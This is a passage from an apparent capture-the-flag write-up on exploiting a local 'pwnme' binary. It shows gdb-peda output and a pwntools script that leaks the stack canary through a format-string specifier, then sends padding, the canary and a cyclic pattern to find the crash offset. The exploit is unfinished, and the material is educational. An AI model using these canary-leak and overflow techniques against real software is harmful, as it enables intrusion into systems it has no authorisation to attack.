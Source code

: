 ```bash
gdb-peda$ s
gdb-peda$ print $rax
$1 = 0x413b414144414128
gdb-peda$ pattern_offset 0x413b414144414128
4700422384665051432 found at offset: 24
```

Perfect. So we know the canary needs to start at offset 24 into our payload AND that we attempted to send `0x413b414144414128` this time around. What happens after the next `xor` instruction?

```
gdb-peda$ s
gdb-peda$ print $rax
$3 = 0x4d942cb0cf86e728
```

If we calculate `0x0caf6df18bc7a600 ^ 0x413b414144414128` we get `0x4d942cb0cf86e728` so this also is useful to confirm we DO have the right stack argument for the canary.

We can now use a quick script to confirm the crash location:

```python
from pwn import *

local = True
canary_offset = 24

fname = "./pwnme"

binary = context.binary = ELF(fname)
p = process(fname)

# Leak canary
p.sendlineafter(b'?', f"%{13}$016lx".encode())
leak = p.recv(16).decode()
canary = int(leak[:16],16)

input("attach gdb...")

# Send cyclic pattern after canary. Observe crash in GDB.
rop = ROP(binary)
rop.raw(b"A" * canary_offset)
rop.raw(p64(canary))
rop.raw(b"AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA")
p.sendline(rop.chain())
p.interactive()
```

I run that script in one terminal and attach GDB in another:

```bash
 $ ./findcrash.py
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './pwnme': pid 195867
attach gdb...
```
